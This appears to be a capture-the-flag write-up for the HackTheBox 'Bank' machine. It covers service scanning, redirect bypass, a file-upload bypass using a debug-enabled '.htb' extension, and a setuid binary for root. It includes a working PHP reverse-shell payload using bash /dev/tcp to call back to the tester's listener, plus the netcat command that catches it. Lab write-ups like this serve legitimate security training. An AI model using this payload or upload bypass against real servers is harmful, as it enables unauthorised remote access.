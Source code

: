 # This is a write up for the machine Bank from HackTheBox.eu

host: 10.10.10.29

Serivce Discovery
```
nmap -A 10.10.10.29

Host is up (0.23s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
| 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|_ 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
53/tcp open domain
| dns-nsid: 
|_ bind.version: 9.9.5–3ubuntu0.14-Ubuntu
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank — Logi
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

And we can see that we have 3 services running ssh, dns and http. I tried accessing the web server  http://10.10.10.29 but it was just the default apache site.I saw that dns was open so I edited `/etc/hosts` to contain the ip of the machine plus the name server of the machine. The default name server for all HackTheBox machines is `<name of box>.htb` so I edited the hosts file as followed

cat /etc/hosts
```
127.0.0.1 localhost
127.0.1.1 Debian
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
10.10.10.29 bank.htb
```
Now 10.10.10.29 resolves to bank.htb. I tried to do a zone transfer with dig but that didn’t give me any information, so I accessed bank.htb and we were automatically redirected to bank.htb/login.php it was a login page for the bank site, I used curl to see what was in bank.htb/ because I couldn’t access the root directory of the site it would always redirect me to /login.php with curl -v http://bank.htb you can see all the html source code for root directory of the site. Also it indicated that there was a 302 redirect.
```
< HTTP/1.1 302 Found
< Date: Fri, 25 Aug 2017 15:50:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9–1ubuntu4.21
< Set-Cookie: HTBBankAuth=mipq942thbgb8h1vuf94ck3u01; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< location: login.php
< Content-Length: 7322
< Content-Type: text/html
```
I then used DirBuster to find new files and directory in bank.htb. Most of the files and folders were 403,302 some were 200 I found and interesting file named support and it was 200, so I tried accessing it but were being redirected to /login.php once again. I installed this plugin on firefox called noredirect which allows to me stop any 302 redirections. For those who couldn’t get Noredirect installed on firefox because of the firefox version was outdated there was an option to install anyway at the bottom of the page. I noticed people were having trouble with that, Alternatively could’ve used either Burpsuite or Zap-Proxy to catch the request and send it through as a 200 request.

[![image.png](https://s2.postimg.org/vdg3v1bk9/image.png)](https://postimg.org/image/42usn48n9/)

I added http://bank.htb/login.php to the noredirect plugin so it would stop redirecting to /login.php everytime. Now I’m able to access http://bank.htb/ and we can see the transactions at the bank, and some other information… If we now go to /support.php we can see you can upload “tickets” as images, if you curl http://bank.htb/support.php and scroll through the html code you can see that the admin left him self a little nice note for himself.

> “<! — [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] →”

I created a php shell as followed
```
<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.x.x/4444 0>&1’”);
```
and named it shell.php I tried uploading it as shell.php but the site only wanted images uploaded. 
Then I remember that .htb runs as php so I added the .htb extension for my php shell since it can execute as php “for debugging purposes” and the shell got uploaded. Now all I had to do is set up a netcat listener to catch the shell.

`nc -l -v -p 4444`

once we catch the shell we go into the box as `www-data` in the directory `/var/www/bank/uploads/`

`www-data@bank:/var/www/bank/uploads$`

We can go into the user’s home directory chris and get the user flag user.txt,

**Got User Flag!**

Now it's time for privilege escalation. I started by just browsing through the directories and in `/var` I found a folder named htb inside htb I found two files with execute permissions and owned by root.
```
www-data@bank:/var/htb$ ls -la 
total 16
drwxr-xr-x 3 root root 4096 Jun 14 18:25 .
drwxr-xr-x 14 root root 4096 May 29 18:41 ..
drwxr-xr-x 2 root root 4096 Jun 14 18:30 bin
-rwxr-xr-x 1 root root 356 Jun 14 18:30 emergency
```
it seems like the system administrator has left an emergency exploit in case he forgets the root password of the system…
My privilege before running the exploit

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

My privileges after running the emergency exploit
```
./emergency 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
and now we can get the root flag. cat /root/root.txt

**Got Root Flag!**

<a href="https://imgflip.com/gif/1zsvkv"><img src="https://i.imgflip.com/1zsvkv.gif" title="made at imgflip.com"/></a>
